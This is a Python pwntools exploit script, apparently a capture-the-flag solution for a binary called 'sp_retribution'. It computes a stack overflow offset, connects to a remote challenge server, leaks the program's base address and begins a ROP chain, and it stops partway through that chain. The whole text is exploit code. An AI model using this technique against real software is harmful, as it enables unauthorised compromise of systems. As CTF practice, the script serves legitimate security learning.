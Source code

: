 ```python
from pwn import *
import re

local_path = "sp_retribution"

pty = process.PTY
elf = context.binary = ELF(local_path)

libc = ELF('glibc/libc-2.23.so')

def init(rem=False):
    if rem:
        io = remote("138.68.188.223", 30195)
    else:
        io = process(elf.path, stdin=pty, stdout=pty)


    return io




def find_rip_offset(io):
    io.clean()
    io.sendline(cyclic(0x1000))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("rsp = %#x", stack)
    pattern = core.read(stack, 4)
    info("cyclic pattern = %s", pattern.decode())
    rip_offset = cyclic_find(pattern)
    info("rip offset is = %d", rip_offset)
    return rip_offset

#io = init()
#offset = find_rip_offset(io)
#io.close()
offset = 88

# leak
io = init(True)

io.recvuntil(b">> ")
io.sendline(b'2')
io.recvuntil(b'y = ')
io.sendline(b'')
data = io.recvuntil(b'(y/n): ')

# leak base elf addr
#base = u32(re.findall(b"y = \n\r(.*?)\n", data)[0]) << 16
base = data.split(b'\n')[-2]
base = u32(base[1:]) << 16


print("leaked base: %s"%hex(base))



pop_rdi_ret = 0x0000000000000d33

chain = b'A'*offset
chain += p64(base + pop_rdi_ret)                # load got.read into rdi
```